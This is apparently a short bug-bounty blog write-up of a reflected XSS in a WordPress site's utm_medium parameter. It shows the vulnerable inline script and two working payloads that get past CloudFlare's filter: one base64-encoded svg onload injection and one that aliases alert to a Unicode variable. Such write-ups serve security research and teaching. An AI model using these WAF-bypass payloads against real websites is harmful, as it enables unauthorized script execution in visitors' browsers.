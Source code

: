 ```yaml
---
layout: post
title:  "Popping XSS on a website behind CloudFlare"
date:   2020-11-08
categories: OSCP
thumbnail: /img/rude.png
tags: cloudflare,xss-bypass
---
```

Few days ago I encountered this interesting reflected XSS on a private program. Decided to drop a short writeup because it was fun to exploit.

I came across this `utm_medium` GET parameter that gets reflected on 404 pages of the website and the website was running WordPress:

```html
<script>(function (c, p, d, u, id, i) {
          id = '{REFLECTED_VALUE}_494946e30b60c7d85f47556fafff8903'; // Optional Custom ID for user in your system
          u = 'https://www.g2crowd.com/attribution_tracking/conversions/' + c + '.js?p=' + encodeURI(p) + '&e=' + id;
          i = document.createElement('script');
          i.type = 'application/javascript';
          i.src = u;
          d.getElementsByTagName('head')[0].appendChild(i);
        }("71", document.location.href, document));</script>
</script>
```

I could easily break out of the apostrophe and comment out rest of the line by setting the `utm_medium` parameter value to `'; XSS ;//`. 

Seeing there was no filter in place I immediately added `alert(1)` to see this simple numeric value pop-up and have my satisfaction but I got rudely interrupted by this warning message of CloudFlare:

![CloudFlare-Block](/img/rude.png#center)

alert()/confirm()/prompt() pretty much all of them were blocked, the first bypass that I came up with was this:

```
1';document.body.innerHTML%3Datob('PHN2Zy9vbmxvYWQ9YWxlcnQoZG9jdW1lbnQuZG9tYWluKT4K');//
```

The base64 string gets decoded into `<svg/onload=alert(document.domain)>` and then inserted to body which triggers the XSS.

This was cool and all but we can do better! How about this?

```
1';ツ=alert;ツ(document.domain);//
```

This looks much cleaner and instantly got the alert box I was waiting for! 

That was it for this one, hope you found it interesting as well and catch you on the next one!